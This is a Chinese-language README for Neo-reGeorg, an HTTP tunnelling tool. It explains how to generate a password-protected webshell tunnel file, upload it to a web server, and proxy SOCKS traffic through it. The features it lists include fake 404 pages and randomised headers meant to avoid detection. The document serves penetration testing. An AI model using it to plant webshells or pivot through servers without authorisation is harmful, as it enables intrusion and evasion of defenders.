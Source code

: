 Neo-reGeorg
=========

**Neo-reGeorg** 是一个旨在积极重构 [reGeorg](https://github.com/sensepost/reGeorg) 的项目，目的是：

* 提高 tunnel 连接安全性
* 提高可用性，避免特征检测
* 提高传输内容保密性
* 解决 reGeorg 现存在的问题，修复部分小BUG



## Features

* 传输内容经过变形base64加密，伪装成base64编码
* GET 请求响应可定制化 (如伪装的404页面)
* HTTP Headers 的指令随机生成，避免特征检测
* HTTP Headers 可定制化
* 兼容python2 / python3



Version
----

1.0.0



Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests




Basic Usage
--------------

* **Step 1.**
设置密码生成 tunnel.(aspx|ashx|jsp|php) 并上传到WEB服务器
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_server/tunnel.nosocket.php
       => neoreg_server/tunnel.js
       => neoreg_server/tunnel.php
       => neoreg_server/tunnel.ashx
       => neoreg_server/tunnel.aspx
       => neoreg_server/tunnel.tomcat.5.jsp
       => neoreg_server/tunnel.jsp

```

* **Step 2.**
使用 neoreg.py 连接WEB服务器，在本地建立 socks 代理
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting socks server [127.0.0.1:1080], tunnel at [http://k/tunnel.php]
+------------------------------------------------------------------------+
```

   注意，如果你的工具，如NMap不支持socks代理，请使用 [proxychains](https://github.com/rofl0r/proxychains-ng) 




Advanced Usage
--------------

1. 支持生成服务端，默认 GET 请求响应指定的页面内容 (如伪装的404页面)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html
$ pytohn neoreg.py -k <you_password> -u <server_url> --skip
```

2. 如服务端WEB，需要设置代理才能访问
```ruby
$ pytohn neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. 如需Authorization认证，或者定制的Header或Cookie
```ruby
$ pytohn neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value"
```

* 更多关于性能和稳定性的参数设置参考 -h 帮助信息
```ruby
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [--read-buff Bytes]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      --read-buff Bytes     Remote read buffer.(default: 513)

$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI -k KEY [-l IP] [-p PORT] [-s] [-H LINE] [-c LINE]
                     [-x LINE] [--read-buff Bytes] [--read-interval MS]
                     [--max-threads N] [-v]

    Socks server for Neoreg HTTP(s) tunneller

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address.(default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port.(default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom cookies to server
      -x LINE, --proxy LINE
                            proto://host[:port] Use proxy on given port
      --read-buff Bytes     Local read buffer, max data to be sent per
                            POST.(default: 1024)
      --read-interval MS    Read data interval in milliseconds.(default: 100)
      --max-threads N       Proxy max threads.(default: 1000)
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```



## License

GPL 3.0
